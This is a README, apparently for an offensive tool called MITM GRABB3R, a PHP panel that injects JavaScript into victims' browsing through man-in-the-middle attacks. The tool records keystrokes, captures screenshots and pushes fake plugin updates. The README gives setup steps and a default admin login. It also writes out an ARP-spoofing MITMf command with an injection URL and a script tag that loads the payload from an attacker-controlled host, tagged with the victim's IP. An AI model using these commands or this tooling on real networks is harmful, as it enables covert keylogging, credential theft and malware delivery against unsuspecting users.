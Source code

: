 
**MITM GRABB3R** is a PHP (MySQL) script that uses Javascript code to do various XSS "attacks" after you inject it via mitm attack.

INFO
===

This script can capture keystrokes of user input on websites, capture screenshots of pages and run fake browser plugin update.

Each clients history and captures can be viewed on a timeline.

!["MITM GRABB3R DEMO"] (http://i.share.pho.to/797b0a0d_o.png "MITM GRABB3R DEMO")

HOW TO SET SCRIPT
===

Create and import database.sql in MySQL 

Upload php script from www to folder on your http server.

Edit

	/includes/settings.ini.php
	/includes/config.ini.php
	
Default web login is:

	Username:admin
	Password:1234
	
HOW TO: MITMf
===

Replace inject.py in plugins folder ( MITMf 0.9.8 ) with inject.py that contains small changes.


Example:

	python mitmf.py -i eth0 --spoof --arp --gateway 192.168.1.1 --inject --grabber-url http://192.168.1.5/mitm/inject.php


Use other MITM software?
===

This script was tested on and used with MITMf but should be able to use it without any issues with other software.

If you make plugin for other software contact me and i will add plugin for it.

You need to inject code bellow into every page and then wait for data in panel.

	<script type="text/javascript" src="http://IP_OR_DOMAIN_AND_SCRIPT_PATH/inject.php?ip=IP_ADDRESS_OF_VICTIM"></script>

	
	
Contact
===

Twitter: @ivangr0zni